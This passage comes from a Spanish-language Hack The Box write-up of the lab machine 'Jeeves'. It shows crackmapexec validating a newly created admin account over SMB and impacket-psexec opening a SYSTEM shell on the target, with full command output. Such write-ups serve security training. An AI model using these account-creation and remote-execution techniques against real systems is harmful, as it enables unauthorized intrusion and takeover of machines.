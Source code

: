 
Ahora nos crearemos un **usuario**, le añadiremos al grupo **Administrators** y cambiaremos el **registro** para habilitar el acceso administrativo remoto para cuentas de usuario local en el equipo, con los siguientes comandos:

```bash wrap=false
❯ crackmapexec smb 10.10.10.63 -u 'zelpro' -p 'zelpro123!$'                            
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [+] Jeeves\zelpro:zelpro123!$ (Pwn3d!)
```

Vemos que lo hemos hecho bien, vamos a conectarnos con `impacket-psexec`:

```bash wrap=false
❯ impacket-psexec WORKGROUP/zelpro@10.10.10.63 cmd.exe                                 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Requesting shares on 10.10.10.63.....
[*] Found writable share ADMIN$
[*] Uploading file IoUctpBH.exe
[*] Opening SVCManager on 10.10.10.63.....
[*] Creating service IPkZ on 10.10.10.63.....
[*] Starting service IPkZ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/114)

---
